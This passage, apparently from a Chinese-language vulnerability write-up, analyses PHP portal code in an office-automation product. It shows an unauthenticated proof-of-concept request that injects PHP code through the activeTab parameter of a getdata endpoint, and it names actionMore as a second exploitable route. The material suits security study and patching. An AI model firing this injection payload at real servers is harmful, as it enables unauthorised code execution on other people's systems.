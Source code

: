 ```php
        $start = ($curnum - 1) * $pagelimit;

        if (modules\portal\models\function_components\find_id($_SESSION["LOGIN_FUNC_STR"], "185")) {
            .........
            .........
            .........
        }

        $dataBacks = array("page_total" => $page_total, "total_nums" => $total_nums, "curnum" => $curnum, "pagelimit" => $pagelimit, "activeTab" => $activeTab, "data" => $this->dataBack);
        return $dataBacks;
    }
```

由于未登录所以大部分的逻辑都是不会进去的，直接返回了含有未修改activeTab的数组。利用的poc如下所示：

```php
/general/appbuilder/web/portal/gateway/getdata?activeTab=%e5'.var_dump(111));/*&id=1&module=Zhidao
```

其实大部分的组件都是可以利用的，除了website\_components下的module，因为它的get\_data并没有返回可控的activeTab。

##### 其它可以利用的路由

在actionMore中用到了同样的逻辑来获得dataBack，所以这边也存在利用点，actionMore代码如下：

```php
    public function actionMore($id, $module, $activeTab, $curnum, $pagelimit, $keyword)
    {
        Yii::$app->response->format = yii\web\Response::FORMAT_JSON;
        $id = modules\portal\controllers\intval($id);
        $curnum = modules\portal\controllers\intval($curnum);
        $pagelimit = modules\portal\controllers\intval($pagelimit);
        $keyword = modules\portal\controllers\td_filterWords($keyword);

        if (empty($id)) {
            return modules\appdesign\models\AppUtils::error(modules\portal\controllers\_("未指定门户组件"));
        }

        $component = new modules\portal\models\PortalComponent();
        $timetype = "";

        if (!$module) {
            $component = modules\portal\models\PortalComponent::find()->where(array("id" => $id))->one();
            $module = $component->alias;
        }

        $activeTab = ($activeTab ? $activeTab : "");

        if ($module == "video") {
            $activeTab = "More";
        }

        $data = $component->GetData($id, $module, $activeTab, $curnum, $pagelimit, $timetype, "", "", "", "", $keyword);
        $dataBacks = array("status" => 1, "data" => $data);
        $this->dataBack = modules\appdesign\models\AppUtils::toUTF8($dataBacks);
        return $this->dataBack;
    }
```
